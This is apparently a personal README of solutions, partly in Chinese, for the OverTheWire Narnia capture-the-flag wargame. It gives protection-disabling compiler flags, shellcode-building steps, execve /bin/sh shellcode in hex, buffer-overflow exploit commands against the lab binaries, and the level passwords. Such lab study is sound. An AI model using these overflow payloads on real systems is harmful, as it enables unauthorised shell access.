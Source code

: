 wargame-narnia
==============

-  ssh addr: narnia0@narnia.labs.overthewire.org
-  url: http://overthewire.org/wargames/narnia/

    --[ Tips ]--

    This machine has a 64bit processor and many security-features
    enabled by default, although ASLR has been switched off. The
    following compiler flags might be interesting:

    -  -m32 compile for 32bit
    -  -fno-stack-protector disable ProPolice
    -  -Wl,-z,norelro disable relro

    In addition, the execstack tool can be used to flag the stack as
    executable on ELF binaries.

    Finally, network-access is limited for most levels by a local
    firewall.

测试 shellcode:
~~~~~~~~~~~~~~~

`shellcodetest.c <./shellcodetest.c>`__

gcc -fno-stack-protector -z execstack -m32 shellcodetest.c -o
shellcodetest

生成 shellcode
~~~~~~~~~~~~~~

1. 写出 xxx.asm
2. `nasm -f elf32 xxx.asm -o xxx.o`
3. `ld -m elf_i386 -o xxx xxx.o`
4. `objdump -d xxx` 从输出中获得 shellcode 当然也可以写个工具提取
5. 考虑一下让\ `.text`\ 段可写?
   `objcopy --writable-text -O elf32-i386 xxx xxx1` 似乎没有作用...

更改的系统值存档
~~~~~~~~~~~~~~~~

-  `/proc/sys/kernel/randomize_va_space` = 2

narnia0
'''''''

flag: narnia0

narnia1
'''''''

flag: efeidiedae

`narnia0.c <./narnia0.c>`__

需要覆盖\ `val`\ 变量, 注意管道关闭后程序也会随着关闭因此需要用
`cat` 继续向程序传递内容

::

    $ (python -c "print('aaaaaaaaaaaaaaaaaaaa\xef\xbe\xad\xde')"; cat) | /narnia/narnia0
    # 进入 sh 后执行
    $ cat /etc/narnia_pass/narnia1

narnia2
'''''''

flag: nairiepecu

`narnia1.c <./narnia1.c>`__

程序直接把环境变量 `$EGG` 的内容当成函数执行了，所以要在 `$EGG`
中插入程序。

这次需要真正的 shellcode 了, shellcode 见 `shell.asm`, 将生成的
shellcode 导入 EGG 变量, 直接执行 `./narnia2` 即可.

shellcode: `shell.asm <./shell.asm>`__

::

    $ export EGG=$(python -c "print('\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x58\x41\x41\x41\x41\x42\x42\x42\x42')")
    $ ./narnia1

narnia3
'''''''

`narnia2.c <./narnia2.c>`__

查看环境变量地址: `(gdb) x/s *((char **)environ + 1)`\ ， 结果
`0xffffd8a1:     "XDG_SESSION_ID=76296"`

::

    $ export XDG_SESSION_ID=$(python -c "print('\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x58\x41\x41\x41\x41\x42\x42\x42\x42')")
    ./narnia2 $(python -c "print('a' * 140 + '\x55\xd8\xff\xff')")
